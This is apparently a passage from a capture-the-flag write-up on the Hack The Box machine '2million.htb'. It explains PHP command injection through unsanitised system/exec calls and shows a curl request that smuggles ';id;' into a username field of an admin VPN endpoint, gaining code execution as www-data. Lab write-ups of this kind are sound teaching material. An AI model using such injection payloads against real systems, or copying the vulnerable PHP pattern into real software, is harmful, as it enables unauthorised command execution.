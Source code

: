 ```bash
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sun, 10 Aug 2025 16:24:17 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
<
{ [9374 bytes data]
100 10855 0 10832 100 23 23400 49 --:--:-- --:--:-- --:--:-- 23495
* Connection #0 to host 2million.htb left intact
ll
total 32K
-rw-rw-r-- 1 mr007 mr007 1.1K Aug 9 11:25 scan.txt
-rw-rw-r-- 1 mr007 mr007 12K Aug 9 11:25 scan.xml
-rw-rw-r-- 1 mr007 mr007 470 Aug 9 11:17 table.md
-rw-rw-r-- 1 mr007 mr007 11K Aug 9 18:21 vpn.ovpn
```

Perfect! We have successfully generated a VPN file.

This is great news; this file seems to be generated based on our user input. Moreover, if this file is generated using a system function like `exec` or `system` in PHP and the inputs are not properly checked (no sanitization), a command injection could be possible.

### Examples of PHP Code Vulnerable to Command Injection

```php
system("genvpn --user={$username}");
```

```php
exec("bash gen_config.sh {$username}");
```

In both cases, if we manage to inject a system command via the `$username` variable, the target machine will execute:

```bash
# If the variable $username contains the string "test;id;":
genvpn --user=test;id; # In Bash, the ; allows executing a second command on the same line
```

Let's try to reproduce this in our case.

```bash
curl -X POST -d '{"username": "0xMR007;id;"}' -H "Content-Type: application/json" http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=6rpp80g8sueusjtr6fgeqd5314"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Perfect! The endpoint `/api/v1/admin/vpn/generate` is indeed vulnerable to command injection.

**Answer:** `/api/v1/admin/vpn/generate`

